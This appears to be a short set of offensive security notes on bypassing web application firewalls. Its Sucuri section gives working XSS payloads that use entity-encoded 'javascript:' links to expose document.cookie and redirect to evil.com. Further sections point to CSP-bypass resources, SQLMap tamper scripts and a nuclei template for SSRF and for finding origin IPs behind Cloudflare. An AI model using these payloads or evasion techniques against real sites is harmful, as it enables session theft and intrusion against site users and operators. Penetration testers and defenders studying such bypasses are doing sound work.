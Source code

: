 
https://youtu.be/d4KQqQz4LZI 

Sucuri WAF Bypass:

![[{DA108D8D-B271-4CF8-8150-0E6F4F25A5AE}.png]]

poc:
https://youtu.be/7BJl2MzFlnE?si=utsxlXeVjkppTR0S

payload:
```
<a aa aaa aaaa aaaaaa href=j&#97v&#97script&#x3A;&#97lert(document.cookie)>ClickMe

<a href="j&#97;vascript&#x3A;&#97;lert('Sucuri WAF Bypassed ! ' + document.domain + '\nCookie: ' + document.cookie); window&#46;location&#46;href='https://evil.com';">ClickMe</a>

```
----


## CSP Bypass:

![[{4DC257C2-093B-486A-825A-71FC55ECE36E}.png]]

this will help you to Bypass csp


http://cspbypass.com/

![[{4C00F9FD-A172-4CF4-AF4F-05EF2D84E5AA}.png]]

[SQLMap Tamper Scripts (aldern00b.com)](https://www.aldern00b.com/post/sqlmap-tamper-scripts)

---

you can try this cloudflare rocketloader nuclei template for SSRF and Finding Origin ip behind WAF helpful in WAF bypass:

https://github.com/coffinxp/nuclei-templates/blob/main/cloudflare-rocketloader-htmli.yaml - from lostsec